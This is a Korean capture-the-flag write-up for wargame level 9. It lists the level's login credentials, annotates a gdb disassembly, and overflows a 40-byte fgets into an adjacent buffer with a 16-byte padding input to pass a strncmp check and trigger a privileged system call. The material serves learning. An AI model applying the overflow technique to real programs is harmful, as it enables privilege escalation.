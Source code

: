 # level 9

* id : `level9`
* pw : `apple`

![](./img/2021-11-08-18-49-29.png)

우선 버퍼 오버플로우를 해야하니 해당 프로그램을 gdb 해보자

해당 프로그램 권한으로 gdb가 안되니 소스코드를 복사해 만들면 된다
```
cd tmp
vim test.c
(소스코드 입력)
gcc test.c
./a.out
```


![](./img/2021-11-08-19-05-04.png)

정상적으로 파일이 만들어졌다. gdb로 디버깅해보자

```
gdb a.out
set disassembly-flavor intel
disas main
```
위와 같이 gdb를 켜고, main 함수를 disas해보면 아래처럼 나온다.


```python
0x08048420 <main+0>:    push   ebp
0x08048421 <main+1>:    mov    ebp,esp
0x08048423 <main+3>:    sub    esp,0x28             # 함수 프롤로그 종료
0x08048426 <main+6>:    and    esp,0xfffffff0
0x08048429 <main+9>:    mov    eax,0x0
0x0804842e <main+14>:   sub    esp,eax
0x08048430 <main+16>:   sub    esp,0xc
0x08048433 <main+19>:   push   0x8048554            # It can be overflow 문자열 주소
0x08048438 <main+24>:   call   0x8048350 <printf>
0x0804843d <main+29>:   add    esp,0x10             # 함수 종료 후 정리
0x08048440 <main+32>:   sub    esp,0x4
0x08048443 <main+35>:   push   ds:0x8049698
0x08048449 <main+41>:   push   0x28                 # 0x28 == 40만큼의 길이를
0x0804844b <main+43>:   lea    eax,[ebp-40]         # ebp-40 공간의 배열을 fgets함
0x0804844e <main+46>:   push   eax                  # 기타 인수(stdin)
0x0804844f <main+47>:   call   0x8048320 <fgets>
0x08048454 <main+52>:   add    esp,0x10             # 함수 종료 후 정리
0x08048457 <main+55>:   sub    esp,0x4
0x0804845a <main+58>:   push   0x2
0x0804845c <main+60>:   push   0x804856a
0x08048461 <main+65>:   lea    eax,[ebp-24]         # ebp-24 공간의 배열을 strncmp함
0x08048464 <main+68>:   push   eax
0x08048465 <main+69>:   call   0x8048330 <strncmp>
0x0804846a <main+74>:   add    esp,0x10             # 함수 종료 후 정리
0x0804846d <main+77>:   test   eax,eax
0x0804846f <main+79>:   jne    0x80484a6 <main+134>
0x08048471 <main+81>:   sub    esp,0xc
0x08048474 <main+84>:   push   0x804856d
0x08048479 <main+89>:   call   0x8048350 <printf>
0x0804847e <main+94>:   add    esp,0x10             # 함수 종료 후 정리
0x08048481 <main+97>:   sub    esp,0x8
0x08048484 <main+100>:  push   0xbc2
0x08048489 <main+105>:  push   0xbc2
0x0804848e <main+110>:  call   0x8048360 <setreuid>
0x08048493 <main+115>:  add    esp,0x10
0x08048496 <main+118>:  sub    esp,0xc
0x08048499 <main+121>:  push   0x804857a
0x0804849e <main+126>:  call   0x8048310 <system>
0x080484a3 <main+131>:  add    esp,0x10
0x080484a6 <main+134>:  leave
0x080484a7 <main+135>:  ret
```

잘 보면, [ebp-40] 과 [ebp-24] 에다가 각각 fgets, strncmp를 하므로 각각의 주소가 가르키는곳이 buf, buf2 임을 알수있고, 그 차이가 40-24 = 16 만큼 차이가 나는것을 알수있다.


![](./img/2021-11-08-19-34-37.png)

다시말해서, 이런식으로 현재 배열이 놓여져 있는 것이다.

중간에 더미가 존재하는 이유는, [메모리 관리를 효율적으로 하기 위해서이다.](https://en.wikipedia.org/wiki/Fragmentation_%28computing%29#Internal_fragmentation)

---

아무튼, fgets를 최대 40바이트까지 가져올 수 있으므로 마음 놓고 버퍼 오버플로우를 진행해 buf2까지 침범하면 된다.

더미까지 16바이트를 할당하므로, `(16바이트 글자) + go`를 입력하면 된다.

```
1234567890123456go
```

![](./img/2021-11-08-19-38-21.png)

GG!